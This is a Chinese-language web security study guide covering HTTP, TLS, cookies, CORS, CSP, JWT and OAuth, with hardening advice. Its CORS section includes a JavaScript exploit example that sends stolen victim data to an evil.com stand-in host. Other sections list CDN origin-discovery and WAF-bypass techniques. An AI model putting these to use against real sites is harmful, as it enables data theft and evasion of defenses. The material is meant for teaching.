


# Web基础与HTTP协议安全

> 从协议底层到安全攻防，构建完整的Web知识体系

---

## 一、Web技术栈全景

### 1.1 架构演进

```
静态页面 (1990s)
  → 动态网站 (CGI/ASP/PHP/JSP)
  → Web 2.0 (AJAX/RESTful)
  → 单页应用 SPA (React/Vue/Angular)
  → 微服务架构
  → Serverless/Edge Computing
  → Web3/去中心化应用
```

### 1.2 请求生命周期



### 1.3 核心协议栈

| 层级 | 协议 | 作用 |
|:----|:-----|:-----|
| 应用层 | HTTP/1.1, HTTP/2, HTTP/3 | 资源传输 |
| 安全层 | TLS 1.2, TLS 1.3 | 加密通信 |
| 传输层 | TCP, QUIC | 可靠传输 |
| 网络层 | IPv4, IPv6, DNS | 寻址路由 |
| 数据链路层 | Ethernet, Wi-Fi | 物理传输 |

---

## 二、HTTP协议基础

### 2.1 HTTP报文结构

#### 请求报文
```
请求行: METHOD URI HTTP/version
首部:   Header-Name: value
空行:   \r\n
消息体: body content (可选)
```

#### 响应报文
```
状态行: HTTP/version Status-Code Reason-Phrase
首部:    Header-Name: value
空行:    \r\n
消息体:  body content (可选)
```

### 2.2 HTTP方法详解

| 方法 | 幂等 | 安全 | 请求体 | 语义 |
|:----|:---:|:---:|:-----:|:-----|
| GET | ✅ | ✅ | ❌ | 获取资源 |
| HEAD | ✅ | ✅ | ❌ | 获取响应头 |
| POST | ❌ | ❌ | ✅ | 提交资源 |
| PUT | ✅ | ❌ | ✅ | 替换资源 |
| PATCH | ❌ | ❌ | ✅ | 部分更新 |
| DELETE | ✅ | ❌ | ❌ | 删除资源 |
| OPTIONS | ✅ | ✅ | ❌ | 查询方法 |
| CONNECT | ❌ | ❌ | ❌ | 隧道代理 |
| TRACE | ✅ | ✅ | ❌ | 回显请求 |

#### 安全风险
- **PUT** → 任意文件上传
- **DELETE** → 任意文件删除
- **CONNECT** → 代理滥用/SSRF
- **TRACE** → XST攻击（跨站追踪）

### 2.3 HTTP状态码

| 分类 | 范围 | 含义 | 常见状态码 |
|:----|:----|:-----|:----------|
| 1xx | 100-199 | 信息性 | 100 Continue, 101 Switching Protocols, 103 Early Hints |
| 2xx | 200-299 | 成功 | 200 OK, 201 Created, 204 No Content, 206 Partial Content |
| 3xx | 300-399 | 重定向 | 301 Moved Permanently, 302 Found, 303 See Other, 304 Not Modified, 307 Temporary Redirect, 308 Permanent Redirect |
| 4xx | 400-499 | 客户端错误 | 400 Bad Request, 401 Unauthorized, 403 Forbidden, 404 Not Found, 405 Method Not Allowed, 406 Not Acceptable, 407 Proxy Auth Required, 408 Request Timeout, 409 Conflict, 410 Gone, 411 Length Required, 412 Precondition Failed, 413 Payload Too Large, 414 URI Too Long, 415 Unsupported Media Type, 416 Range Not Satisfiable, 417 Expectation Failed, 418 I'm a Teapot, 421 Misdirected Request, 422 Unprocessable Entity, 423 Locked, 424 Failed Dependency, 425 Too Early, 426 Upgrade Required, 428 Precondition Required, 429 Too Many Requests, 431 Request Header Fields Too Large, 451 Unavailable For Legal Reasons |
| 5xx | 500-599 | 服务端错误 | 500 Internal Server Error, 501 Not Implemented, 502 Bad Gateway, 503 Service Unavailable, 504 Gateway Timeout, 505 HTTP Version Not Supported, 506 Variant Also Negotiates, 507 Insufficient Storage, 508 Loop Detected, 510 Not Extended, 511 Network Authentication Required |

#### 安全关注点
- **401/403** → 是否存在未授权访问
- **405** → 方法是否被限制
- **429** → 速率限制是否存在
- **500/502/503** → 是否存在信息泄露
- **301/302** → 重定向打开新窗口的安全风险

### 2.4 HTTP首部

#### 通用首部
| 首部 | 作用 | 安全考量 |
|:----|:-----|:---------|
| Cache-Control | 缓存控制 | 敏感数据不应缓存 |
| Connection | 连接管理 | Keep-Alive/Close |
| Date | 日期时间 | 服务器时间泄露 |
| Via | 代理路径 | 代理路径泄露 |
| Upgrade | 协议升级 | WebSocket升级 |

#### 请求首部
| 首部 | 作用 | 安全考量 |
|:----|:-----|:---------|
| Host | 目标主机 | 虚拟主机路由关键 |
| User-Agent | 客户端标识 | 浏览器指纹 |
| Referer | 来源页面 | 路径泄露 |
| Origin | 来源源站 | CORS关键字段 |
| Cookie | 状态信息 | Session劫持目标 |
| Authorization | 认证凭证 | 需配合HTTPS |
| Content-Type | 内容类型 | MIME类型校验 |
| Accept | 可接受类型 | 内容协商 |
| X-Forwarded-For | 真实IP | IP伪造风险 |
| Forwarded | 代理信息 | 同上 |

#### 响应首部
| 首部 | 作用 | 安全考量 |
|:----|:-----|:---------|
| Set-Cookie | 设置Cookie | HttpOnly/Secure/SameSite |
| WWW-Authenticate | 认证挑战 | 认证类型泄露 |
| Location | 重定向 | 开放性重定向 |
| Server | 服务器信息 | 版本信息泄露 |
| X-Powered-By | 技术栈 | 框架版本泄露 |
| Access-Control-Allow-Origin | CORS | 跨域策略 |
| Content-Security-Policy | CSP | 内容安全策略 |

#### 安全相关首部
| 安全首部 | 作用 | 推荐值 |
|:---------|:-----|:-------|
| Content-Security-Policy | 内容安全策略 | `default-src 'self'` |
| X-Content-Type-Options | MIME嗅探防护 | `nosniff` |
| X-Frame-Options | 点击劫持防护 | `DENY` 或 `SAMEORIGIN` |
| X-XSS-Protection | XSS过滤 | `1; mode=block` (已废弃) |
| Strict-Transport-Security | HSTS | `max-age=31536000; includeSubDomains` |
| Referrer-Policy | Referer控制 | `strict-origin-when-cross-origin` |
| Permissions-Policy | API权限控制 | `camera=(), microphone=()` |
| Set-Cookie (SameSite) | CSRF防护 | `SameSite=Lax` 或 `Strict` |
| Access-Control-* | CORS配置 | 按需最小权限 |

---

## 三、HTTP/1.1 vs HTTP/2 vs HTTP/3

### 3.1 版本对比

| 特性 | HTTP/1.1 | HTTP/2 | HTTP/3 |
|:----|:--------:|:------:|:------:|
| 基础协议 | TCP | TCP | QUIC (UDP) |
| 多路复用 | ❌ (头阻塞) | ✅ (流多路复用) | ✅ (无队头阻塞) |
| 头部压缩 | ❌ | ✅ HPACK | ✅ QPACK |
| 服务器推送 | ❌ | ✅ | ✅ |
| 二进制帧 | ❌ (文本) | ✅ | ✅ |
| 连接建立 | 3-RTT+ | 3-RTT+ | 0/1-RTT |
| 队头阻塞 | 应用层+TCP | 仅TCP层 | 无 |
| 连接迁移 | ❌ | ❌ | ✅ |
| 浏览器支持 | 100% | 98%+ | 85%+ |

### 3.2 HTTP/2 特性详解

#### 二进制分帧层
```
+-------------------+
| 帧头部 (9 bytes)  |
| - Length (3)     |
| - Type (1)       |
| - Flags (1)      |
| - Stream ID (4)  |
+-------------------+
| 帧载荷 (可变)     |
+-------------------+
```

帧类型:
- **DATA** - 传递数据
- **HEADERS** - 打开/头部
- **PRIORITY** - 优先级
- **RST_STREAM** - 终止流
- **SETTINGS** - 设置参数
- **PUSH_PROMISE** - 服务器推送
- **PING** - 心跳检测
- **GOAWAY** - 连接关闭
- **WINDOW_UPDATE** - 流量控制
- **CONTINUATION** - 延续帧

#### 多路复用
```
HTTP/1.1:  [请求1]→←[响应1]  [请求2]→←[响应2]
HTTP/2:    [请求1][请求2][请求3]→←[响应1][响应2][响应3]
```

#### HPACK 头部压缩
- 静态表: 61个常用首部预定义
- 动态表: 会话中动态维护
- Huffman编码: 进一步压缩

### 3.3 HTTP/3 (QUIC) 特性

#### QUIC 核心优势
1. **0-RTT 握手** - 已连接过的可直接发数据
2. **无队头阻塞** - 单流丢包不影响其他流
3. **连接迁移** - 切换网络无需重连
4. **内置加密** - 默认TLS 1.3
5. **前向纠错** - 减少重传

#### 连接建立
```
传统 TCP+TLS:
  C→S: SYN          (1-RTT)
  S→C: SYN-ACK      
  C→S: ACK + ClientHello (2-RTT)
  S→C: ServerHello...  
  C→S: Finished     (3-RTT)
  C→S: HTTP Request

QUIC (首次):
  C→S: Initial + ClientHello (1-RTT)
  S→C: Handshake + ServerHello
  C→S: HTTP Request           (2-RTT)

QUIC (重连):
  C→S: 0-RTT + HTTP Request (0-RTT!)
  S→C: HTTP Response
```

### 3.4 安全影响
- HTTP/2: 更易受DDoS（多路复用放大）
- HTTP/3: QUIC基于UDP，传统防火墙可能无法检测
- 服务器推送: 可能被用于放大攻击

---

## 四、HTTPS与TLS

### 4.1 TLS握手流程



### 4.2 TLS 1.3 改进

```
TLS 1.2 (2-RTT):
  ClientHello
  ServerHello + Certificate + ServerHelloDone
  ClientKeyExchange + ChangeCipherSpec + Finished
  ChangeCipherSpec + Finished
  [Application Data]

TLS 1.3 (1-RTT):
  ClientHello + KeyShare
  ServerHello + KeyShare + Certificate + Finished
  [Application Data]

TLS 1.3 (0-RTT):
  ClientHello + KeyShare + EarlyData
  ServerHello + [Response]
```

#### TLS 1.3 关键变化
- 移除: RC4, 3DES, CBC模式, RSA密钥交换, SHA-1, Compression, Renegotiation
- 新增: AEAD-only, PSK, 0-RTT, EDH, Signature Algorithms
- 握手从2-RTT降至1-RTT (首次)/0-RTT (重连)

### 4.3 证书体系

#### 证书链
```
Root CA (自签名)
  └─ Intermediate CA 1
       └─ Intermediate CA 2
            └─ Leaf Certificate (服务器证书)
```

#### 证书内容
| 字段 | 说明 |
|:----|:-----|
| Subject | 所有者 (CN=example.com) |
| Issuer | 签发者 |
| Not Before | 生效时间 |
| Not After | 过期时间 |
| Subject Public Key Info | 公钥算法+公钥 |
| Signature Algorithm | 签名算法 |
| Subject Alternative Names | SAN (多域名) |
| Extended Key Usage | 用途 (ServerAuth/ClientAuth) |
| CRL Distribution Points | CRL分发点 |
| Authority Information Access | OCSP/CA Issuer |

#### 证书验证
1. 证书链校验 → 信任锚
2. 有效期校验 → 未过期
3. 域名匹配 → CN/SAN匹配
4. CRL/OCSP → 未吊销
5. 签名验证 → 完整性

### 4.4 常见加密套件

| 套件 | 密钥交换 | 认证 | 加密 | MAC | 安全性 |
|:----|:--------|:----|:----|:----|:-----|
| TLS_AES_128_GCM_SHA256 | ECDHE | ECDSA/RSA | AES-128-GCM | AEAD | ✅ 强 |
| TLS_AES_256_GCM_SHA384 | ECDHE | ECDSA/RSA | AES-256-GCM | AEAD | ✅ 强 |
| TLS_CHACHA20_POLY1305_SHA256 | ECDHE | ECDSA/RSA | CHACHA20-POLY1305 | AEAD | ✅ 强 |
| TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256 | ECDHE | RSA | AES-128-GCM | AEAD | ⚠️ 可 |
| TLS_ECDHE_ECDSA_WITH_AES_128_GCM_SHA256 | ECDHE | ECDSA | AES-128-GCM | AEAD | ✅ 强 |
| TLS_RSA_WITH_AES_128_CBC_SHA | RSA | RSA | AES-128-CBC | HMAC-SHA1 | ❌ 弱 |
| TLS_RSA_WITH_RC4_128_SHA | RSA | RSA | RC4_128 | HMAC-SHA1 | ❌ 禁用 |
| TLS_DHE_RSA_WITH_3DES_EDE_CBC_SHA | DHE | RSA | 3DES | HMAC-SHA1 | ❌ 禁用 |

### 4.5 常见攻击

| 攻击 | 目标 | 原理 | 缓解 |
|:----|:----|:-----|:-----|
| SSL Stripping | 降级HTTP | ARP欺骗劫持HTTPS→HTTP | HSTS |
| Heartbleed | OpenSSL | 心跳扩展边界检查缺失 | 更新OpenSSL |
| BEAST | TLS 1.0 CBC | IV预测破解 | 使用TLS 1.1+ |
| POODLE | SSL 3.0 | CBC填充预言攻击 | 禁用SSL 3.0 |
| CRIME/BREACH | 压缩 | 压缩后长度推断秘密 | 禁用压缩 |
| Logjam | DHE | 降级MODP组至512-bit | 使用≥2048-bit |
| FREAK | RSA_EXPORT | 降级至出口级加密 | 禁用弱密码套件 |
| DROWN | SSLv2 | 共用私钥的SSLv2漏洞 | 禁用SSLv2 |
| ROBOT | RSA | Bleichenbacher回退 | 使用ECDHE |
| Lucky13 | CBC | 时序旁路攻击 | 使用AEAD |

---

## 五、Cookie与Session机制

### 5.1 Cookie属性

| 属性 | 作用 | 安全要求 |
|:----|:-----|:---------|
| Name=Value | 键值对 | 不要存储敏感信息 |
| Expires/Max-Age | 过期时间 | 会话Cookie不留持久化 |
| Domain | 作用域名 | 尽可能限定子域 |
| Path | 作用路径 | 尽可能限定路径 |
| **Secure** | 仅HTTPS发送 | ✅ **必须** |
| **HttpOnly** | 禁止JS访问 | ✅ **必须** |
| **SameSite** | 跨站请求限制 | ✅ **推荐Lax/Strict** |
| Priority | Cookie优先级 | 低优先级的可能被丢弃 |

#### SameSite详解
| 值 | 同站 | 跨站GET | 跨站POST |
|:--|:---:|:-------:|:--------:|
| None (无) | ✅ | ✅ | ✅ |
| Lax | ✅ | ✅ (顶层导航) | ❌ |
| Strict | ✅ | ❌ | ❌ |

### 5.2 Session机制

#### 会话生命周期
```
用户登录 → 服务端创建Session → 返回SessionID
      ↓
SessionID存储在Cookie/URL/隐藏域
      ↓
每次请求携带SessionID → 服务端查找Session
      ↓
注销/超时 → 销毁Session
```

#### 常见Session存储方案
| 方案 | 优点 | 缺点 | 安全性 |
|:----|:----|:----|:------|
| 内存 | 速度快 | 重启丢失/无法分布式 | ⚠️ 中 |
| 文件 | 持久化 | I/O瓶颈 | ⚠️ 中 |
| 数据库 | 持久化/分布式 | 查询延迟 | ✅ 高 |
| Redis | 高速/分布式 | 内存消耗 | ✅ 高 |
| JWT | 无状态/跨域 | 无法吊销 | ⚠️ 中 |

### 5.3 Session攻击

| 攻击类型 | 原理 | 防护 |
|:---------|:-----|:-----|
| Session劫持 | 窃取SessionID | HTTPS+HttpOnly+Secure |
| Session固定 | 预置SessionID让用户登录 | 登录后重生成SessionID |
| 会话预测 | 猜测SessionID模式 | 使用随机足够长的ID |
| 会话超时不足 | 会话过长导致暴露风险 | 短时限+空闲超时 |
| 并发会话 | 多设备同时登录 | 限制会话数/通知用户 |

### 5.4 Token绑定 (Token Binding)
- 将TLS绑定ID与Token关联
- 防止Token被盗用后跨设备使用
- 需要浏览器和应用支持

---

## 六、同源策略与跨域

### 6.1 同源策略 (SOP)

#### 同源定义
```
两个URL如果 协议://主机名:端口 完全相同，则为同源。

https://example.com:443/path?query=1#hash
      协议     主机     端口
```

| URL | 是否同源 | 原因 |
|:----|:--------:|:-----|
| https://example.com/page2 | ✅ | 同协议同主机同端口 |
| http://example.com/page | ❌ | 协议不同 (https vs http) |
| https://api.example.com | ❌ | 主机不同 |
| https://example.com:8080 | ❌ | 端口不同 |

#### SOP限制的内容
1. ❌ 跨域读取Cookie/LocalStorage/SessionStorage
2. ❌ 跨域读取DOM (iframe)
3. ❌ 跨域AJAX读取响应 (可发送但不可读)
4. ❌ 跨域读取IndexedDB/Cache API
5. ✅ 跨域可嵌入: `<script>  <link> <iframe> <video> <audio>`

### 6.2 CORS (跨域资源共享)

#### 简单请求
满足以下条件:
- 方法: GET/HEAD/POST
- 首部: Accept/Accept-Language/Content-Language/Content-Type (限 application/x-www-form-urlencoded/multipart/form-data/text/plain)
- 无事件监听器 onreadystatechange

浏览器直接发送请求，检查响应头 `Access-Control-Allow-Origin`

#### 预检请求 (Preflight)
```
OPTIONS /resource HTTP/1.1
Origin: https://example.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: X-Custom-Header

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST, PUT
Access-Control-Allow-Headers: X-Custom-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 86400
```

#### CORS响应头
| 响应头 | 作用 | 安全风险 |
|:-------|:-----|:---------|
| Access-Control-Allow-Origin | 允许的源站 | 设为`*`配合Credentials=❌ |
| Access-Control-Allow-Methods | 允许的方法 | 暴露不应允许的方法 |
| Access-Control-Allow-Headers | 允许的首部 | 暴露自定义首部 |
| Access-Control-Expose-Headers | 暴露给JS的首部 | 信息泄露 |
| Access-Control-Allow-Credentials | 允许凭据 | 不允许配合`*` |
| Access-Control-Max-Age | 预检缓存时间 | 过短增加请求 |

#### CORS漏洞利用
```javascript
// 配置错误: 反射Origin
Origin: https://evil.com
Access-Control-Allow-Origin: https://evil.com  // ← 危险!
Access-Control-Allow-Credentials: true

// 攻击者利用:
fetch('https://victim.com/api/data', {
  credentials: 'include'
}).then(res => res.text()).then(data => {
  fetch('https://evil.com/steal?data=' + data)
})
```

### 6.3 JSONP

```javascript
// 服务端返回:
callback({"name": "user", "token": "secret"});

// 客户端使用:
<script src="https://api.example.com/user?callback=handleData">
function handleData(data) { /* 使用数据 */ }
```

**安全风险**:
- 可绕过SOP读取跨域数据
- 无同源限制，任何站点可嵌入
- callback参数可被XSS利用
- 完全依赖服务端安全

### 6.4 postMessage

```javascript
// 发送方
window.postMessage({type: 'auth', token: 'secret'}, 'https://target.com');

// 接收方
window.addEventListener('message', function(event) {
  // ❌ 危险: 未验证 event.origin
  // ❌ 危险: 未验证 event.source
  
  // ✅ 正确做法
  if (event.origin !== 'https://trusted.com') return;
  if (!event.source || event.source !== expectedWindow) return;
  
  processData(event.data);
});
```

**常见漏洞**:
- 未验证 origin → 任意源可发送消息
- 未验证 source → 无法确定发送窗口
- 敏感数据通过 postMessage 传输

### 6.5 跨域方式对比

| 方式 | 可读响应 | 携带Cookie | 需要服务端配合 | 安全风险 |
|:----|:-------:|:----------:|:-------------:|:--------|
| CORS | ✅ | ✅ (需配置) | ✅ | 配置错误 |
| JSONP | ✅ | ❌ | ✅ | XSS/CSRF |
| postMessage | ✅ | ❌ | ✅ | 未验证origin |
| WebSocket | ✅ | ❌ | ✅ | WSS必须 |
| Server-Sent Events | ✅ | ✅ | ✅ | 单向 |
| navigator.sendBeacon | ✅ | ✅ | ✅ | POST-only |
| window.name | ✅ | ❌ | ❌ | 2KB限制 |
| location.hash | ⚠️ | ❌ | ❌ | 长度限制+泄露 |
| document.domain | ✅ | ✅ | ⚠️ | 已废弃 |

---

## 七、CSP与Web安全策略

### 7.1 Content Security Policy

#### CSP指令
| 指令 | 控制内容 | 示例 |
|:----|:---------|:-----|
| default-src | 所有资源类型默认源 | `default-src 'self'` |
| script-src | JavaScript | `script-src 'self' 'nonce-abc123'` |
| style-src | CSS | `style-src 'self' 'unsafe-inline'` |
| img-src | 图片 | `img-src 'self' https://*.imgur.com` |
| connect-src | XHR/Fetch/WebSocket | `connect-src 'self' https://api.example.com` |
| font-src | 字体 | `font-src 'self' https://fonts.gstatic.com` |
| object-src | `<object> <embed> <applet>` | `object-src 'none'` |
| media-src | `<audio> <video>` | `media-src 'self'` |
| frame-src | iframe | `frame-src 'none'` |
| frame-ancestors | 谁可嵌入本页面 | `frame-ancestors 'none'` |
| form-action | 表单提交目标 | `form-action 'self'` |
| base-uri | `<base>`标签URL | `base-uri 'self'` |
| manifest-src | 应用清单 | `manifest-src 'self'` |
| worker-src | Web Worker/Service Worker | `worker-src 'self'` |
| report-uri/report-to | 违规报告URL | `report-uri /csp-report` |
| upgrade-insecure-requests | 升级HTTP请求 | `upgrade-insecure-requests` |
| block-all-mixed-content | 阻止混合内容 | `block-all-mixed-content` |
| require-trusted-types-for | 强制Trusted Types | `require-trusted-types-for 'script'` |

#### CSP值
| 值 | 含义 |
|:---|:-----|
| `'none'` | 不允许任何内容 |
| `'self'` | 同源 |
| `'unsafe-inline'` | 允许内联脚本/样式 |
| `'unsafe-eval'` | 允许eval() |
| `'strict-dynamic'` | 严格动态(nonce信任传递) |
| `'nonce-xxx'` | 匹配nonce值的标签 |
| `'sha256-xxx'` | 匹配hash值的标签 |
| `'report-sample'` | 违规时包含样本 |
| `https://*.example.com` | 通配符域名 |
| `https://cdn.example.com` | 具体域名 |

#### CSP策略示例
```
# 严格CSP (推荐)
Content-Security-Policy:
  default-src 'self';
  script-src 'nonce-{random}' 'strict-dynamic';
  object-src 'none';
  base-uri 'none';
  form-action 'self';
  frame-ancestors 'none';

# 宽松CSP (过渡)
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'unsafe-inline' 'unsafe-eval' https://cdn.example.com;
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  connect-src 'self' https://api.example.com;
  font-src 'self' https://fonts.gstatic.com;
  frame-src 'none';
  object-src 'none';
```

### 7.2 HSTS (HTTP Strict Transport Security)

```
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

- **max-age**: 缓存时长（秒）
- **includeSubDomains**: 覆盖所有子域
- **preload**: 提交到浏览器预加载列表

#### HSTS预加载
1. 在 https://hstspreload.org 提交
2. 浏览器内置域名列表
3. 首次访问即强制HTTPS

### 7.3 SRI (Subresource Integrity)

```html
<script src="https://cdn.example.com/library.js"
        integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
        crossorigin="anonymous">
</script>
```

- 浏览器验证资源hash是否匹配
- 防止CDN被篡改/投毒
- 支持 sha256/sha384/sha512

### 7.4 Trusted Types

```javascript
// 启用
Content-Security-Policy: require-trusted-types-for 'script'

// 创建策略
const sanitizer = trustedTypes.createPolicy('sanitize', {
  createHTML: (input) => DOMPurify.sanitize(input),
  createScriptURL: (input) => {
    const allowed = ['https://cdn.example.com/'];
    return allowed.some(p => input.startsWith(p)) ? input : '';
  }
});

// 使用
element.innerHTML = sanitizer.createHTML(userInput);
```

---

## 八、认证与授权机制

### 8.1 认证方式

| 方式 | 原理 | 安全性 | 适用场景 |
|:----|:-----|:------|:---------|
| HTTP Basic Auth | Base64(user:pass) | ❌ 明文+重复发送 | 内部API |
| HTTP Digest Auth | MD5(nonce+realm+user+pass) | ⚠️ 中等 | 简单认证 |
| Session-Cookie | SessionID存Cookie | ✅ 由实现决定 | Web应用 |
| JWT Token | 自包含签名的Token | ✅ 由签名算法决定 | 无状态/API |
| OAuth 2.0 | 委托授权框架 | ✅ 由实现决定 | 第三方登录 |
| OpenID Connect | OAuth 2.0+身份层 | ✅ 由实现决定 | 身份认证 |
| SAML | XML断言 | ✅ 由实现决定 | 企业SSO |
| WebAuthn | 公钥密码学 | ✅✅ 强力 | 无密码认证 |
| 多因素认证 | 密码+第二因子 | ✅✅ 强力 | 高安全场景 |

### 8.2 JWT (JSON Web Token)

#### JWT结构
```
Header.Payload.Signature

Header: {"alg": "HS256", "typ": "JWT"}
Payload: {"sub": "123", "name": "John", "iat": 1516239022}
Signature: HMACSHA256(base64(Header) + "." + base64(Payload), secret)
```

#### JWT安全风险
| 风险 | 原理 | 防护 |
|:----|:-----|:-----|
| 算法混淆 | alg: none/HS256用公钥验签 | 强制白名单算法 |
| 弱密钥 | HS256密钥太弱可暴力破解 | 使用≥256bit随机密钥 |
| 敏感信息泄露 | payload仅base64非加密 | 勿放敏感信息 |
| 过期Token未验证 | exp/nbf/iat不校验 | 严格验证所有声明 |
| Token复用 | 被盗Token无绑定性 | Token Binding |
| JWT注入 | kid头注入SQL/路径遍历 | 验证kid白名单 |
| JWK头欺骗 | 攻击者提供公钥 | 使用固定公钥/jku白名单 |

### 8.3 OAuth 2.0 流程

#### 授权码模式 (推荐)
```
用户 → 第三方应用: 点击"使用XX登录"
第三方应用 → 认证服务器: 重定向到认证页面
用户 → 认证服务器: 登录并授权
认证服务器 → 第三方应用: 回调地址发送授权码
第三方应用 → 认证服务器: 授权码 + ClientSecret → AccessToken
认证服务器 → 第三方应用: 返回AccessToken + RefreshToken
第三方应用 → 资源服务器: AccessToken 请求资源
资源服务器 → 第三方应用: 返回资源
```

#### 隐式模式 (已废弃)
- 直接返回AccessToken (无授权码)
- 不安全，已被PKCE替代

#### PKCE (Proof Key for Code Exchange)
```
1. 客户端生成 code_verifier (随机字符串)
2. 客户端计算 code_challenge = SHA256(code_verifier)
3. 授权请求携带 code_challenge
4. Token请求携带 code_verifier
5. 服务端验证 SHA256(code_verifier) == code_challenge
```

### 8.4 SSO与SAML

#### SSO攻击面
- SAML响应签名未验证
- 断言中用户标识可篡改
- RelayState未校验 (开放重定向)
- IdP和SP的时钟偏差过大
- SAML注入 (XML外部实体)

---

## 九、常见Web架构组件

### 9.1 Nginx安全配置

```nginx
# 隐藏版本号
server_tokens off;

# 限制请求方法
if ($request_method !~ ^(GET|HEAD|POST)$) {
    return 405;
}

# 限制 Body 大小
client_max_body_size 10M;

# 安全头
add_header X-Content-Type-Options nosniff;
add_header X-Frame-Options DENY;
add_header X-XSS-Protection "1; mode=block";
add_header Content-Security-Policy "default-src 'self'";
add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;

# 阻止访问敏感文件
location ~* \.(env|git|svn|htaccess|config|sql)$ {
    deny all;
}

# 限制访问路径
location /admin/ {
    allow 192.168.0.0/16;
    deny all;
}

# 阻止常见扫描
location = /wp-admin { deny all; }
location = /xmlrpc.php { deny all; }
```

### 9.2 CDN安全

#### CDN绕过技巧
1. **直接IP访问**: 通过子域名/Shodan找源站IP
2. **DNS历史记录**: SecurityTrails/CriminalIP查历史A记录
3. **SSL证书透明度**: crt.sh查证书中的IP
4. **邮件头分析**: 邮件头中的原始IP
5. **Favicon Hash**: Shodan搜索favicon hash
6. **边缘节点泄露**: Cloudflare的1054错误

### 9.3 WAF (Web Application防火墙)

#### WAF绕过思路
- 编码混淆 (URL/Unicode/Base64/Hex/双重编码)
- 大小写混淆
- 注释符号注入 (/**/)
- 分块传输 (Chunked Transfer Encoding)
- HTTP参数污染 (HPP)
- HTTP方法覆盖 (X-HTTP-Method-Override)
- 请求分割 (CRLF Injection)
- 条件竞争 (Race Condition)
- 超大数据绕过
- WebSocket绕过

---

## 十、浏览器安全机制

### 10.1 沙箱 (Sandbox)
- 每个标签页独立进程
- Site Isolation: 不同站点不同进程
- 进程权限最小化
- 安全浏览 (Chrome) / SmartScreen (Edge)

### 10.2 跨域隔离 (Cross-Origin Isolation)

需要设置:
```
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Embedder-Policy: require-corp
```

启用后可使用:
- SharedArrayBuffer
- performance.measureUserAgentSpecificMemory()
- 更精确的高精度计时器

### 10.3 混合内容 (Mixed Content)

| 类型 | 定义 | 浏览器行为 |
|:----|:-----|:----------|
| 主动混合内容 | HTTPS页面加载HTTP脚本/CSS/font/iframe | 默认阻止 |
| 被动混合内容 | HTTPS页面加载HTTP图片/音频/视频 | 显示警告但加载 |

### 10.4 私有网络访问 (Private Network Access)
- HTTPS页面访问内网HTTP资源需授权
- 防止DNS Rebinding攻击
- 逐步实施中

---

## 十一、HTTP攻击面总览

### 11.1 攻击面分类

| 攻击面 | 描述 | 常见攻击 |
|:-------|:-----|:---------|
| 输入验证 | 用户输入未过滤 | XSS/SQL注入/命令注入 |
| 认证 | 身份验证不足 | 暴力破解/Session劫持 |
| 授权 | 权限控制不足 | IDOR/越权 |
| 会话管理 | Session处理不当 | 固定攻击/预测 |
| 加密 | 通信未加密/弱加密 | 中间人攻击 |
| 敏感数据 | 数据泄露 | 信息泄露/目录遍历 |
| 配置 | 配置不当 | 默认密码/调试接口 |
| 文件操作 | 文件处理不安全 | 文件包含/上传/下载 |
| 业务逻辑 | 流程缺陷 | 逻辑漏洞/绕过 |
| 第三方组件 | 依赖不安全 | 供应链攻击/已知漏洞 |

### 11.2 攻击工具

| 工具 | 用途 | 特点 |
|:----|:-----|:-----|
| Burp Suite | Web代理/扫描 | 专业版功能强大 |
| OWASP ZAP | Web代理/扫描 | 开源免费 |
| curl | HTTP命令行工具 | 灵活快速 |
| HTTPie | 人类友好HTTP客户端 | 彩色输出 |
| Postman | API调试 | 可视化界面 |
| wfuzz | Web模糊测试 | 参数fuzz |
| ffuf | 快速模糊测试 | Go语言高性能 |
| gobuster | 目录/子域名爆破 | Go语言 |
| dirsearch | 目录扫描 | Python多线程 |
| netcat | TCP/UDP调试 | 短小精悍 |
| openssl s_client | TLS调试 | 证书/握手分析 |

### 11.3 靶场环境

